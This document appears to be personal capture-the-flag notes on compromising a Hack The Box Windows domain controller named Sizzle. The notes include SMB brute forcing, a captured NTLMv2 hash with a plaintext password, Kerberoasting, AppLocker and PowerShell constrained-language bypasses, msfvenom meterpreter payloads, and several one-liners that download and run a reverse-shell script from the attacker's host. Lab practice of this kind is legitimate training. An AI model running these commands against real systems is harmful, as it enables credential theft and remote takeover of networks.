NMAP

```
# Nmap 7.70 scan initiated Fri Feb 15 14:24:35 2019 as: nmap -T4 -sC -sV -oA nmap/initial 10.10.10.103
Nmap scan report for 10.10.10.103      
Host is up (0.050s latency).           
Not shown: 987 filtered ports                                   
PORT     STATE SERVICE       VERSION                                                                                                  21/tcp   open  ftp           Microsoft ftpd     
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                               
| ftp-syst:                                                                                                                          
|_  SYST: Windows_NT                                            
53/tcp   open  domain?                                                                                                               
| fingerprint-strings:
|   DNSVersionBindreqTCP:
|     version                                            
|_    bind              
80/tcp   open  http          Microsoft IIS httpd 10.0           
| http-methods:                                                                                                        
|_  Potentially risky methods: TRACE            
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC              
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                           
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)  
```

PART2

```
| ssl-cert: Subject: commonName=sizzle.htb.local                                                  
| Not valid before: 2018-07-03T17:58:55                                                             
|_Not valid after:  2020-07-02T17:58:55                                                             
|_ssl-date: 2019-02-15T19:21:52+00:00; -5m09s from scanner time.                                   
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0                                               
| http-methods:                                                                                     
|_  Potentially risky methods: TRACE                                                               
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2019-02-15T19:21:51+00:00; -5m09s from scanner time.
| tls-alpn:
|   h2
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2019-02-15T19:21:52+00:00; -5m08s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
```

PART3

```
|_ssl-date: 2019-02-15T19:21:51+00:00; -5m08s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nma
p.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.70%I=7%D=2/15%Time=5C671205%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindreqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m08s, deviation: 0s, median: -5m09s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2019-02-15 14:21:52
|_  start_date: 2019-02-10 22:06:16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 15 14:27:40 2019 -- 1 IP address (1 host up) scanned in 185.95 seconds
```

UDP

```
# Nmap 7.70 scan initiated Fri Feb 15 14:29:03 2019 as: nmap -T4 -sU -oA nmap/udp 10.10.10.103
Nmap scan report for 10.10.10.103
Host is up (0.043s latency).
Not shown: 997 open|filtered ports
PORT      STATE SERVICE
123/udp   open  ntp
389/udp   open  ldap
65024/udp open  unknown

```

TOTAL

```
nmap -sT -T5 -p- -Pn -oA nmap/total 10.10.10.103
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-15 14:47 EST
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.54% done
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.81% done
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.65% done; ETC: 14:52 (0:04:59 remaining)
Nmap scan report for 10.10.10.103
Host is up (0.044s latency).
Not shown: 65506 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp    
53/tcp    open  domain 
80/tcp    open  http   
135/tcp   open  msrpc  
139/tcp   open  netbios-ssn
389/tcp   open  ldap   
443/tcp   open  https
445/tcp   open  microsoft-ds                                
464/tcp   open  kpasswd5    
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
5986/tcp  open  wsmans
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49677/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49682/tcp open  unknown
49685/tcp open  unknown
49695/tcp open  unknown
49707/tcp open  unknown
59598/tcp open  unknown
```

NMAP SMP SCRIPT SCAN

for some reason the script doens't return much information. just enumerating the shares with null sessions isn't enough. 

```
nmap --script smb-enum-shares -p 139,445 10.10.10.103
```


```
nmap --script smb-vuln* -p 138,139,445 -oA nmap/smb_vulns 10.10.10.103
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-22 19:51 EST
Nmap scan report for sizzle.htb (10.10.10.103)
Host is up (0.077s latency).

PORT    STATE    SERVICE
138/tcp filtered netbios-dgm
139/tcp open     netbios-ssn
445/tcp open     microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: ERROR: Server disconnected the connection

Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds

```

DIG

sizzle.htb still check subdomains with wfuzz.

```
dig sizzle.htb ANY  @10.10.10.103                                                           [25/256]
                                                                                                                                      
; <<>> DiG 9.11.5-P1-1-Debian <<>> sizzle.htb ANY @10.10.10.103                                                                       
;; global options: +cmd                                                                                                               
;; Got answer:                                                                                                                        
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 21252                                                                            
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
                                                                
;; OPT PSEUDOSECTION:                                        
; EDNS: version: 0, flags:; udp: 4000                  
; COOKIE: bee98158bf1d22d6 (echoed)        
;; QUESTION SECTION:                                          
;sizzle.htb.                    IN      ANY        ===ANSWER                
                                        
;; Query time: 1347 msec                                        
;; SERVER: 10.10.10.103#53(10.10.10.103)
;; WHEN: Fri Feb 15 15:04:13 EST 2019
;; MSG SIZE  rcvd: 51                       
```

SUBDOMAINS WITH WFUZZ

```
wfuzz -c -f sub-sizzle -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://sizzle.htb" -H "Host: FUZZ.sizzle.htb" -t 42 --hc 404
```

GOBUSTER 10.10.10.103

```
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
```


WFUZZ

no returns with wfuzz fuzzed subdomains & root

```
wfuzz -c -f sub-sizzle -w /home/htb/wordlist/seclist/Discovery/DNS/fierce-hostlist.txt -u "http://sizzle." -H "Host: sizzle.FUZZ" -t 42 --hc 404
```

```
wfuzz -c -f sub-sizzle -w /home/htb/wordlist/seclist/Discovery/Web-Content/ -u "https://sizzle.htb" -H "Host: FUZZ.sizzle.htb" -t 42 --hc 404
```

SMBMAP

```
smbmap -H 10.10.10.103 -u guest
-R / to list all path recursivley 
smbmap -H 10.10.10.103 -u guest -R /
```

return

```
ADMIN$                                                NO ACCESS
C$                                                      NO ACCESS        CertEnroll                                              NO ACCESS        Department Shares                                       READ ONLY
IPC$                                                    READ ONLY
Department Shares                                    READ ONLY
NETLOGON                                                NO ACCESS
Operations                                              NO ACCESS
SYSVOL                                                  NO ACCESS
```

Department Shares

```
        dr--r--r--                0 Mon Jul  2 15:21:43 2018    Accounting
        dr--r--r--                0 Mon Jul  2 15:14:28 2018    Audit
        dr--r--r--                0 Tue Jul  3 11:22:39 2018    Banking
        dr--r--r--                0 Mon Jul  2 15:15:01 2018    CEO_protected
        dr--r--r--                0 Mon Jul  2 15:22:06 2018    Devops
        dr--r--r--                0 Mon Jul  2 15:11:57 2018    Finance
        dr--r--r--                0 Mon Jul  2 15:16:11 2018    HR
        dr--r--r--                0 Mon Jul  2 15:14:24 2018    Infosec
        dr--r--r--                0 Mon Jul  2 15:13:59 2018    Infrastructure
        dr--r--r--                0 Mon Jul  2 15:12:04 2018    IT
        dr--r--r--                0 Mon Jul  2 15:12:09 2018    Legal
        dr--r--r--                0 Mon Jul  2 15:15:25 2018    M&A
        dr--r--r--                0 Mon Jul  2 15:14:43 2018    Marketing
        dr--r--r--                0 Mon Jul  2 15:11:47 2018    R&D
        dr--r--r--                0 Mon Jul  2 15:14:37 2018    Sales
        dr--r--r--                0 Mon Jul  2 15:21:46 2018    Security
        dr--r--r--                0 Mon Jul  2 15:16:54 2018    Tax
        dr--r--r--                0 Tue Jul 10 17:39:32 2018    Users
        dr--r--r--                0 Mon Jul  2 15:32:58 2018    ZZ_ARCHIVE
```

```
.\\Banking\
        dr--r--r--                0 Tue Jul  3 11:22:39 2018    .
        dr--r--r--                0 Tue Jul  3 11:22:39 2018    ..
        dr--r--r--                0 Tue Jul  3 11:23:46 2018    Offshore

```

```
        .\\Banking\Offshore\
        dr--r--r--                0 Tue Jul  3 11:23:46 2018    .
        dr--r--r--                0 Tue Jul  3 11:23:46 2018    ..
        dr--r--r--                0 Tue Jul  3 11:23:29 2018    Clients
        dr--r--r--                0 Tue Jul  3 11:23:46 2018    Data
        dr--r--r--                0 Tue Jul  3 11:23:36 2018    Dev
        dr--r--r--                0 Tue Jul  3 11:23:16 2018    Plans
        dr--r--r--                0 Tue Jul  3 11:23:39 2018    Sites
```

```
        .\\HR\
        dr--r--r--                0 Mon Jul  2 15:16:11 2018    .
        dr--r--r--                0 Mon Jul  2 15:16:11 2018    ..
        dr--r--r--                0 Mon Jul  2 15:15:49 2018    Benefits
        dr--r--r--                0 Mon Jul  2 15:16:03 2018    Corporate Events
        dr--r--r--                0 Mon Jul  2 15:15:57 2018    New Hire Documents
        dr--r--r--                0 Mon Jul  2 15:15:42 2018    Payroll
        dr--r--r--                0 Mon Jul  2 15:16:11 2018    Policies
```

```
        .\\Tax\
        dr--r--r--                0 Mon Jul  2 15:16:54 2018    .
        dr--r--r--                0 Mon Jul  2 15:16:54 2018    ..
        dr--r--r--                0 Mon Jul  2 15:16:34 2018    2010
        dr--r--r--                0 Mon Jul  2 15:16:36 2018    2011
        dr--r--r--                0 Mon Jul  2 15:16:38 2018    2012
        dr--r--r--                0 Mon Jul  2 15:16:39 2018    2013
        dr--r--r--                0 Mon Jul  2 15:16:43 2018    2014
        dr--r--r--                0 Mon Jul  2 15:16:45 2018    2015
        dr--r--r--                0 Mon Jul  2 15:16:49 2018    2016
        dr--r--r--                0 Mon Jul  2 15:16:52 2018    2017
        dr--r--r--                0 Mon Jul  2 15:16:54 2018    2018
```

```
        .\\Users\
        dr--r--r--                0 Tue Jul 10 17:39:32 2018    .
        dr--r--r--                0 Tue Jul 10 17:39:32 2018    ..
        dr--r--r--                0 Mon Jul  2 15:18:43 2018    amanda
        dr--r--r--                0 Mon Jul  2 15:19:06 2018    amanda_adm
        dr--r--r--                0 Mon Jul  2 15:18:28 2018    bill
        dr--r--r--                0 Mon Jul  2 15:18:31 2018    bob
        dr--r--r--                0 Mon Jul  2 15:19:14 2018    chris
        dr--r--r--                0 Mon Jul  2 15:18:39 2018    henry
        dr--r--r--                0 Mon Jul  2 15:18:34 2018    joe
        dr--r--r--                0 Mon Jul  2 15:18:53 2018    jose
        dr--r--r--                0 Tue Jul 10 17:39:32 2018    lkys37en
        dr--r--r--                0 Mon Jul  2 15:18:48 2018    morgan
        dr--r--r--                0 Mon Jul  2 15:19:20 2018    mrb3n
        dr--r--r--                0 Wed Sep 26 01:45:32 2018    Public
```

smbclient

```
smbclient  '\\\\10.10.10.103\\Department shares'
```

Found some more tools on 0xdf website https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

## enum4linux

honstest i have no idea what the output is telling me on for sizzle. 

```
enum4linux -k guest -w 'IPC$' -a 10.10.10.103
```

```
-a  Do all simple enumeration (-U -S -G -P -r -o -n -i).
This opion is enabled if you don't provide any other options.
-k user
-w workgroup
```

nmblookup 

Returned no reply

```
nmblookup -A 10.10.10.103
```

FTP

I'm not sure what smb has to offer besides possible usernames. I would like to note lkys37en was createdjuly the 10th. Now going to investigate the ftp server. i get an error with anonymous login.

WARNING FTP SAYS ITS RUNNING WINDOWS_NT



So there are credentials somewhere, i beleive that one of the users might have access and perhaps a weak password. I tried using hydra to brutefrce smb login but it didn't do very well. Metasploit smb auxiarly module was able to fuzz the smb shares effectivily. I made a password and user list. I thought the last lyk being added july 10th was odd and also the spelling which might be a password as well. 

```
msf5 > use auxiliary/s
Display all 624 possibilities? (y or n)
msf5 > use auxiliary/scanner/smb/smb_login
```

```
msf5 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/htb/boxes/sizzle/Creds/smb-
smb-password
USERPASS_FILE => /home/htb/boxes/sizzle/Creds/smb-password
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /home/htb/boxes/sizzle/Creds/smb-user-creds
USER_FILE => /home/htb/boxes/sizzle/Creds/smb-user-creds
[-] Auxiliary failed: Msf::OptionValidateError The following options failed to validate: RHOSTS.
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.10.103
rhosts => 10.10.10.103
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.103:445      - 10.10.10.103:445 - Starting SMB login bruteforce
[+] 10.10.10.103:445      - 10.10.10.103:445 - Success: '.\lkys37en:'
[*] 10.10.10.103:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

type creds to view the password





mrb2n & l7ks37en are the creators. 

Im trying to connect to w****m service using a******a c****rt, any suggest?

Any thoughts how to request a certificate? I imported root cert and crls, but a****a doesn't have an access to certsrv
Edit: I messed with dns, now it works from other rabbit hole ideas.

Mounthing shares

i had some problems getting this to work. please check out smb undertools.

```
mount -o user=guest '//10.10.10.103/Department Shares' /mnt/sizzle
```

Going to write a bash script to check if the shares are writeable.


```
touch, print message, delete file
```

```
for folder in /mnt/sizzle/*; do touch "$folder"; done
```

```
for folder in /mnt/sizzle/**/*; do touch "$folder"; done
```

Another way to enumerate shares

touch all folders in a directory then look at the timestamp and see which ones are wwriteable. 

```
touch ./*
```





recursive search



users dir

public is not present above. enumerating smb shares is lame. i hate it. 



MOUNTHING SHARES

So i vaguely remember this from nightmare. i didn't take notes 

```
[+] Listening for events...                         
[SMBv2] NTLMv2-SSP Client   : 10.10.10.103          
[SMBv2] NTLMv2-SSP Username : HTB\amanda            
[SMBv2] NTLMv2-SSP Hash     : amanda::HTB:792c3f0c11fda1d4:9B57683DA7D562DF91A178A92FF0F32B:0101000000000000C0653150DE09D201B71A89F9869E3EEF000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000100000000200000C98601829F12999A43BF5CFEEAEBE2077928BBB6FD403483E77BE66CE1B2054F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003400000000000000000000000000
```



Amanda

Basically repeating the step above but for amanda.

```
smbmap -u amanda -p Ashare1972 -H 10.10.10.103 -r
```

```
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.103...
[+] IP: 10.10.10.103:445        Name: sizzle.htb
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        CertEnroll                                              READ ONLY
        Department Shares                                       READ ONLY
        IPC$                                                    READ ONLY
        NETLOGON                                                READ ONLY
        Operations                                              NO ACCESS
        SYSVOL                                                  READ ONLY
```

Webserver!!!!

```
        ADMIN$                                                  NO ACCESS   
        C$                                                      NO ACCESS
        CertEnroll                                              READ ONLY
        ./                                                               
        dr--r--r--                0 Thu Feb 28 03:21:14 2019    .                                   
        dr--r--r--                0 Thu Feb 28 03:21:14 2019    ..      
        fr--r--r--              721 Thu Feb 28 03:21:14 2019    HTB-SIZZLE-CA+.crl                  
        fr--r--r--              909 Mon Feb 25 03:20:39 2019    HTB-SIZZLE-CA.crl
        fr--r--r--              322 Mon Jul  2 16:36:05 2018    nsrev_HTB-SIZZLE-CA.asp
        fr--r--r--              871 Mon Jul  2 16:36:03 2018    sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt 
```

```
        NETLOGON                                                READ ONLY
        ./
        dr--r--r--                0 Mon Jul  2 14:56:57 2018    .
        dr--r--r--                0 Mon Jul  2 14:56:57 2018    ..
        Operations                                              NO ACCESS
        SYSVOL                                                  READ ONLY
        ./
        dr--r--r--                0 Mon Jul  2 14:56:57 2018    .
        dr--r--r--                0 Mon Jul  2 14:56:57 2018    ..
        dr--r--r--                0 Mon Jul  2 14:56:57 2018    HTB.LOCAL
```

```
mount -o user=amanda '//10.10.10.103/Shares' /mnt/sizzle
password =	Ashare1972
```

Found some certs in the cert smb share. im not quite sure what to do with them. i believe kururious. The certs might be related to ldap. 

```
smbmap
```

```
GetUserSPNs.py -request -dc-ip 10.10.10.103 sizzle.htb/
GetUserSPNs.py -request -dc-ip 10.10.10.103 HTB.local/amanda 
```

if each phase of discovery in the smb is the next step department shares is done. netlogon and sysvol cert enroll are new.  At this point we have Creds and some CA files. 

Exploring SYSVOL

```
smbclient -U amanda '\\10.10.10.103\SYSVOL'
```

Checking for write permissions

I think this is related to active directory based on my google searches. 

```
mount -o user=amanda '//10.10.10.103/SYSVOL' /mnt/sizzle
```

```
add ** for each additionall path youd like to enumerate.
for folder in /mnt/sizzle/**/*; do touch "$folder"; done
```

```
touch: setting times of '/mnt/sizzle/HTB.LOCAL/DfsrPrivate': Permission denied
touch: setting times of '/mnt/sizzle/HTB.LOCAL/Policies': Permission denied
touch: setting times of '/mnt/sizzle/HTB.LOCAL/scripts': Permission denied
```

Checking  NETLOGON\

Nothing in here, not writeable. =[]

```
mount -o user=amanda '//10.10.10.103/NETLOGON' /mnt/sizzle
```

BACKTOBURP

lets examine the aviable methods.

```
HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/10.0
Public: OPTIONS, TRACE, GET, HEAD, POST
X-Powered-By: ASP.NET
Date: Fri, 01 Mar 2019 21:01:09 GMT
Connection: close
Content-Length: 0
```



WFUZZ for wierd directories

```
wfuzz --hc 404 -c -w /seclist/Discovery/Web-Content/iis.txt -u "http://sizzle.htb/FUZZ"
```

```
Returns aspnet_client
```


```
wfuzz --hc 404 -c -w /home/htb/wordlist/seclist/Discovery/Web-Content/iis.txt -u "http://sizzle.htb/aspnet_client/FUZZ"
```

```
returns 			system_web
```



burp didn't return anything initially. same old forbidden but no session tokens. 

Fuzzing for some simple post params

```
wfuzz --hh 1293 -c -w /home/htb/wordlist/seclist/Discovery/Web-Content/burp-parameter-names.txt -d "FUZZ=junk" 'http://sizzle.htb/aspnet_client/system_web'
```

Gobuster

/certenroll sounds like certen troll

/certsrv is the website using the creds found in the smb shares. 

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.103/aspnet_client/system_web/ -t 40 -x aspx,php,asp,net
```





Microsoft Active Directory Certificate Services

Windows server 2003 r2 & sp1. manages certicates for software security systems that employ pbulic key technology. So it would seem this manages the Active Directory certificates. luckily i don't know anything about Active Directory certificates. 

MY default instinct is this is some kind of kurburos attack; or the website is vulnerable. 

Aparently NTLMV2 is the other authentication mechanicism for windows verification. This protocol uses windows NT and LM hashes to encrypt traffic.

https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html

WINRM

running ruby winrm ran into a bump had to install rubies winrm module.

```
get install winrm
```



knowing very little about windows remote management service. I felt the need to use nmap again to scan it. It return some information i wasn't aware of 5986 is ssl version and 5985 us http. It also returns some version information httpd2.0.



so ive been poking around with the certifacate authority thing. while im close i cna't authenticate to windows remote management. 

installed certutil to try and extract the key and cer from cert9.db

```
pk12util -h
Usage:   pk12util -i importfile [-d certdir] [-P dbprefix] [-h tokenname]
                 [-k slotpwfile | -K slotpw] [-w p12filepwfile | -W p12filepw]
                 [-v]
Usage:   pk12util -l listfile [-d certdir] [-P dbprefix] [-h tokenname]
                 [-k slotpwfile | -K slotpw] [-w p12filepwfile | -W p12filepw]
                 [-v]
Usage:   pk12util -o exportfile -n certname [-d certdir] [-P dbprefix]
                 [-c key_cipher] [-C cert_cipher]
                 [-m | --key_len keyLen] [--cert_key_len certKeyLen] [-v]
                 [-k slotpwfile | -K slotpw]
                 [-w p12filepwfile | -W p12filepw]
```

i have no idea why the above didn't work but i did some more digging and i think i was able to find what i need.  The next part will cover exporting the cert.









## OPENSSL

So i used openssl to extract the key from amanda.p12. Which i thought was odd because i thought certutil would of been easier to use. Examining the key note the friendlyname & the ID which i believe might be the piece i was missing certutil and pk12. 

```
openssl pkcs12 -in amanda.p12 -out goldkey.txt
```







+++

## ACCESS

Get the cert from firefox. 

OPENSSL

```
openssl pkcs12 -in amanda.p12 -nocerts -out amanda.key
```

```
openssl pkcs12 -in amanda.p12 -clcerts -nokeys -out amanda.crt 
```

CHANGES MADE TO WINRM RUBY

I'm not sure why the my connection kept closing and i had to retype the darn passphrase hundreds of times. So i went looking for away to fix this annonyans. key_pass was the solution.

http://paste.openstack.org/show/197184/

```
conn = WinRM::Connection.new(
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: 'amanda_crt.pem',
  client_key: 'amanda_key.pem',
  key_pass: 'Ashare1972',
#  user: 'amanda'
# password: 'Ashare1972',
  :no_ssl_peer_verification => true
)
```



ESCAPING

In a constrained shell. below i talk about new-object being restricted this is the coluprated windows defender. I can upload files using the smb shares. I can try upload taskil to kill windows defender. 

```
Cannot create type. Only core types are supported in this language mode. 
```

INVOKER

Theres some kind of appblocker disabling New-Object form being run. I tried to bypas this using different version of powershell but in hindsight. I'm not sure what i would need to upgrade the shell. I could look through the system and find another cert to upgrade my user. 

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')
```



```
C:\WINDOWS\syswow64\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')
```



CERTUTILS

fortied again app blocker 

```
certutil --urlcache -split -f http://10.10.14.14/Invoke-PowerShellTcp.ps1
```



## Whoami /priv

Bypass Traverse checking enabled is bad this is the attack i tried to use in optimium that requires two cores. I can't upload the exploit because of app blocker. Accountprivlege 

```
whoami /priv
Enter PEM pass phrase:

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

NETSTAT

can't really view the output of -ant the output is way to lengthy. Theres allot of udp ports open. running netstat -a switch revealed port 88 is open. I ran into an issue iwth buffer history size with tmux. theres one port open that sticks out port 88. 







UDP





```
[dead:beef::286e:81b7:187:5754]:88
```

port 88 is assiociated with kurburous. why is the kurburous assiociated with ipv6, but it is not assiociated with ipv4. This would be logical next step. 

LDAP

####This is important####

nmap return port 389 tcp which is the ldap port. I wasn't aware that this might solicate the domainname.

```
HTB.local
```

```
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)  
```

 Gathering information of kerbroast

Finding service accounts

```
setspn -T DOMAINNAME -F -Q */*
```

 	-F = perform queries at the forest, rather than domain level.

​	-T = perform query on the speicified domain or forest.(when -F is also user)

​	-Q = query for existence of SPN

The user certs seem more intersting than the sizzle certs. 



```
setspn -T * -F -Q */*
Checking forest DC=HTB,DC=LOCAL
CN=SIZZLE,OU=Domain Controllers,DC=HTB,DC=LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/sizzle.HTB.LOCAL                                                          
        ldap/sizzle.HTB.LOCAL/ForestDnsZones.HTB.LOCAL
        ldap/sizzle.HTB.LOCAL/DomainDnsZones.HTB.LOCAL
        DNS/sizzle.HTB.LOCAL
        GC/sizzle.HTB.LOCAL/HTB.LOCAL
        RestrictedKrbHost/sizzle.HTB.LOCAL
        RestrictedKrbHost/SIZZLE
        RPC/717ef311-0653-41c6-8db6-81526d6f4985._msdcs.HTB.LOCAL                                                           
        HOST/SIZZLE/HTB
        HOST/sizzle.HTB.LOCAL/HTB
        HOST/SIZZLE
        HOST/sizzle.HTB.LOCAL
        HOST/sizzle.HTB.LOCAL/HTB.LOCAL
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/717ef311-0653-41c6-8db6-81526d6f4985/HTB.LOCAL                                 
        ldap/SIZZLE/HTB
        ldap/717ef311-0653-41c6-8db6-81526d6f4985._msdcs.HTB.LOCAL                                                          
        ldap/sizzle.HTB.LOCAL/HTB
        ldap/SIZZLE
        ldap/sizzle.HTB.LOCAL
        ldap/sizzle.HTB.LOCAL/HTB.LOCAL
CN=krbtgt,CN=Users,DC=HTB,DC=LOCAL
        kadmin/changepw
CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
        http/sizzle

Existing SPN found!
```

i believe this pulls up domain related to a user

```
setspn -s HOST/sizzle.HTB.LOCAL/HTB amanda
setspn -s domainname username
```

Requesting a ticket

```
Add-Type -AssemblyName System.IdentityModel
```

```
New-Object System.IdentityModel.Tokens.KerberosRequestSecurityToken -ArgumentList "http/sizzle"
```

request mass quantities of tickets

```
Add-Type -AssemblyName System.IdentityModel
```

this one has new-object but i bet the output would of been kewl. i think this is why new-object is restricted. probably allot of reason why. 

```
setspn.exe -T SIZZLE -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken-ArgumentList $_.Context.PostContext[0].Trim() }
```

Why the kerbroast attack work is that windows domains there is only ONE NTLM Hash

GetUserSPNs.py

```
 GetUserSPNs.py -request -dc-ip 10.10.10.103 kadmin/changepw -save -outputfile GetUserSPNs.out
```

```

```

TRansfer rounder payloads

PsBypassCLM.exe

This didn't work for some rean; it would just hang.

so uploading the payload using smb then moving it to one of the writeable directories i choice. it is the same directory used in ippsec video but i tried others. lol

https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

```
smbclient -U amanda '\\10.10.10.103\Department Shares\'
put PsBypassCLM.exe
```

```
C:\Windows\System32\spool\drivers\color
```

msfvenom payload

i can't seem to get msbuild to compile the payload on the target. im not sure what im doing wrong but it gives me an error. i had thought it was the os version i was using. further looking into this and i believe i was wrong. somehting about how im editing the file is wrong. i also tried uploading my own msbuild 


```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=443 -f csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=443 -f csharp -o chicken.csproj
```

```
cp 'c:\Department Shares\Users\Public\chicken64-edit.csproj' c:\windows\system32\spool\drivers\color\
```

errors errors

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe chicken64.csproj
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe chicken64-edit.csproj
```

OTHER WAYS TO BYPASS 

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"                  

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\CDF
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4.0
```

After getting watson all setup following 0xdf guide on devel. it wont run because it doens't have access to systeminfo my best guess or i compiled it wrong. I also ran sherlock it returned everything as not vulnerable. I'm starting to doubt the valitity of my shell. 

I was able to get a shell that improved my sisution escaping out fo the consrained laguage limitiations. Invoke a nishangshell which aren't that good so maybe thats the issue. i could upload a meterpreter shell. 

used to check if you are in a constrainted shell

```
$ExecutionContext.SessionState.LanguageMode
```

You don't have to upload anything to get this to work which is nice. 

```
cd c:\Windows\System32\spool\drivers\color\
```

```
PowerShell -Version 2 -ExecutionPolicy ByPass -command "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.49/Invoke-PowerShellTcp.ps1')"
```

this will work as a bypass.

```
PowerShell -Version 2 -ExecutionPolicy ByPass -File .\meow.ps1
```

https://github.com/Cn33liz/MSBuildShellhttps://github.com/Cn33liz/MSBuildShell

i couldn't get msbuild to work.

```
